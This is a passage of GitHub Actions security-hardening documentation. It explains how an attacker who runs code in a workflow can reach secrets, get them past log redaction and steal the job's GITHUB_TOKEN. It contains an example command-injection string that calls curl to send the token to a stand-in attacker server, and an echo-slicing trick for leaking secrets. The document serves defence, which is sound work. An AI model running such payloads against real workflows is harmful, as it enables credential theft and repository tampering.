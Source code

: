 {% endif %}

### Accessing secrets

Workflows triggered from a forked repository using the `pull_request` event have read-only permissions and have no access to secrets. However, these permissions differ for various event triggers such as `issue_comment`, `issues`, `push` and `pull_request` from a branch within the repository, where the attacker could attempt to steal repository secrets or use the write permission of the job's [`GITHUB_TOKEN`](/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token).

* If the secret or token is set to an environment variable, it can be directly accessed through the environment using `printenv`.
* If the secret is used directly in an expression, the generated shell script is stored on-disk and is accessible.
* For a custom action, the risk can vary depending on how a program is using the secret it obtained from the argument:

  {% raw %}

  ```yaml
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```

  {% endraw %}

Although {% data variables.product.prodname_actions %} scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.

### Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, {% data variables.product.prodname_actions %} [automatically redact secrets printed to the log](/actions/security-guides/using-secrets-in-github-actions#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The {% data variables.product.prodname_actions %} runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#`.

### Modifying the contents of a repository

The attacker server can use the {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} API to [modify repository content](/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](/actions/security-guides/automatic-token-authentication#modifying-the-permissions-for-the-github_token).
